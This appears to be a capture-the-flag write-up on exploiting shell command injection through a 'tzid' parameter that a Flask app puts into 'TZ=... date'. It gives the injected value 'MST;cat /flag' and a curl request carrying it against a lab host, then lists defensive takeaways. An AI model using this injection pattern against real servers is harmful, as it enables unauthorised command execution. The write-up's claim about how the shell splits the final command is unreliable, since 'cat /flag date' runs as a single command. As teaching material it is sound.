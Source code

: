 # Command Injection Level: Environment Variable Injection

## Challenge Overview

This level challenges us to perform command injection using an environment variable in a shell command. The server takes a `tzid` (timezone ID) parameter from the user and uses it to set the `TZ` environment variable before calling the `date` command.

### Vulnerable Code

```python
arg = flask.request.args.get("tzid", "MST") 
command = f"TZ={arg} date"
````

The command is constructed as:

```bash
TZ=user_input date
```

This command is then executed in a shell with `shell=True`, making it vulnerable to shell command injection if the `arg` is not properly sanitized.

## Understanding the Vulnerability

The key vulnerability lies in the fact that the `arg` is directly injected into an environment variable declaration in a **shell command**:

```bash
TZ=<user input> date
```

Because `shell=True` is used, we can inject shell metacharacters like `;`, `&&`, or `|` to terminate the `TZ` assignment and execute arbitrary commands.

## Exploitation Strategy

We can use the `;` character to terminate the `TZ` assignment and then run our own command such as `cat /flag`.

### Payload

```bash
MST;cat /flag
```

* `MST` is a valid timezone (used here to keep the command syntactically valid).
* `;` separates the `TZ` assignment from our injected command.
* `cat /flag` reads the flag file.

### URL-Encoded Version

To inject this via a browser or `curl`, we must URL-encode special characters:

* `;` → `%3B`
* space → `%20`

Final Payload:

```bash
curl "http://challenge.localhost/event?tzid=MST%3Bcat%20/flag"
```

## Final Exploit

```bash
curl "http://challenge.localhost/event?tzid=MST%3Bcat%20/flag"
```

This request results in the following command executed on the server:

```bash
TZ=MST;cat /flag date
```

In practice, due to how shell parsing works, the command effectively becomes:

```bash
TZ=MST
cat /flag
date
```

And both the flag and the date are displayed.

## Conclusion

By exploiting the shell's interpretation of the `TZ=<value>` format and injecting a command using `;`, we can execute arbitrary shell commands on the server.

---

### Key Takeaways

* Even **environment variable assignments** can be vectors for command injection if user input is inserted unsafely.
* Using `shell=True` amplifies risks; always avoid it if possible or properly sanitize inputs.
* Understanding how shell parses commands is crucial for both **finding** and **exploiting** injection points.
